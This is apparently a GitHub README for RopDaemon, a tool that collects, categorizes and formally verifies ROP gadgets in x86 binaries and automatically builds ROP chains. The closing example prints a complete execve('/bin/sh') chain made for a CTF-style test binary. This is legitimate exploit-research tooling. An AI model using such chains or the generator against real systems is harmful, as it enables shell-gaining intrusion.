 # RopDaemon

A fast, multithreaded, ROP-gadget semantics analyzer.

`RopDaemon` collects and analyses all the ROP gadgets in a program and assigns them a gadget category and multiple metadata, including:

* The address and the opcodes in the gadget
* The basic operation performed by the gadget, and the registers involved
* The registers invalidated/clobbered by the gadget
* The effect of the gadget on the stack pointer
* If the gadget accesses memory and how

Moreover, `RopDaemon` can reason on the gadgets by automatically crafting non-trivial ropchains.
It supports `x86` and `x86-64` binaries.

## Gadget Categorization

| CLASS | DESCRIPTION | EXAMPLE |
| --- | --- | --- |
| LoadConst | Load constant value into a register | pop rax; ret |
| ClearReg | Set to zero a register | xor rax, rax; ret |
| MovReg | Copy value from a register to a register | mov rax, rcx; ret |
| UnOp | Unary arithmetic/logical oper. over a register | inc rax; ret |
| BinOp | Binary arithmetic/logical oper. over registers | add rax, rbx; ret |
| ReadMem | Read value from memory | mov rax, qword ptr [rcx + 8]; ret |
| WriteMem | Write value into memory | mov qword ptr [rcx + 8], rax; ret |
| ReadMemOp | Binary operation with memory input | add rax, qword ptr [rcx + 8]; ret |
| WriteMemOp | Binary operation with memory output | add qword ptr [rcx + 0x10], rax; ret |
| StackPtrOp | Alter stack pointer value | add rsp, 8; ret |
| Other | Any other operation | syscall; ret |

Gadgets are initially collected by [ropper](https://github.com/sashs/Ropper).
All valid gadgets are executed under [unicorn](https://www.unicorn-engine.org/) using random input values in the registers. This allows `RopDaemon` to collect the gadgets that are candidates for interesting operations. All the others are quickly discarded.

`RopDaemon` verifies only the interesting gadgets using the [angr](https://angr.io/) framework.

## Chain crafting

`RopDaemon` is able to craft non-trivial ropchains using graph based algorithms. It supports setting registers to fixed values, writing to memory, calling functions and syscalls.

It creates a graph based on gadgets dependencies to express the effect each gadget execution has on the registers/memory state, including registers that must be valid (since dereferenced) and registers clobbered by the gadget execution.
A query is then a simple visit on the graph.

## Install

``` shell
$ python3 setup.py install
```

## Usage

``` shell
$ ropd --help                                                                                                                                                                                           
usage: ropd [-h] [-c] [-v] [-e] [-d] [-j] [--stats] binary

This is RopDaemon, a fast rop-gadget compiler

positional arguments:
  binary         input binary

optional arguments:
  -h, --help     show this help message and exit
  -c, --collect  collect and categorize gadgets
  -v, --verify   formally verify collected gadgets
  -e, --execve   generate a ropchain to perform an execve("/bin/sh") syscall
  -d, --dump     dump gadgets file to a readable format
  -j, --json     dump gadgets file to json format
  --stats        statistics about verified gadgets
```

* Run `ropd -cv <binary>` to collect and verify the gadgets in `<binary>`.
  Collection and Verification phases have to be run just once per binary. `RopDaemon` will create a `<binary>.collected` and `<binary>.verified` file to cache the results.
* Run `ropd -j <binary>` to dump a `json` file with all the verified gadgets for `<binary>`.
* Run `ropd -e <binary>` to produce an `execve("/bin/sh")` chain from `<binary>`.

### Example

``` shell
$ ropd -cve test/baby_stack
Collecting...
Analyzing...
100%|██████████████████████| 12314/12314 [00:33<00:00, 366.67it/s]
Found 2318 different typed gadgets
Collected gadgets saved in test/baby_stack.collected
Verifying...
100%|██████████████████████| 2055/2055 [00:21<00:00, 96.91it/s]
Found 1841 different verified gadgets
Verified gadgets saved in test/baby_stack.verified
[+] found best guesses for: ['rax', 'rcx', 'rsi', 'rbp', 'rbx', 'rdx', 'rdi']
[+] computing sequence

IMAGE_BASE =  0x0
rebase = lambda x : p64(x + IMAGE_BASE)

rop = ''
rop += rebase(0x4016ea) # pop rax; ret
rop += p64(0x5a6830)
rop += rebase(0x409d68) # pop rbx; and byte ptr [rax + 1], cl; ret
rop += p64(0x5bf058)
rop += rebase(0x43730f) # pop rbp; ret
rop += p64(0x68732f6e69622f) # "/bin/sh\x00"
rop += rebase(0x40631a) # mov qword ptr [rbx], rbp; ret
rop += rebase(0x470931) # pop rdi; or byte ptr [rax + 0x39], cl; ret
rop += p64(0x5bf058)
rop += rebase(0x46ec93) # pop rdx; adc byte ptr [rax - 1], cl; ret
rop += p64(0x0)
rop += rebase(0x4016ea) # pop rax; ret
rop += p64(0x3b)
rop += rebase(0x46defd) # pop rsi; ret
rop += p64(0x0)
rop += rebase(0x456889) # syscall ; ret
```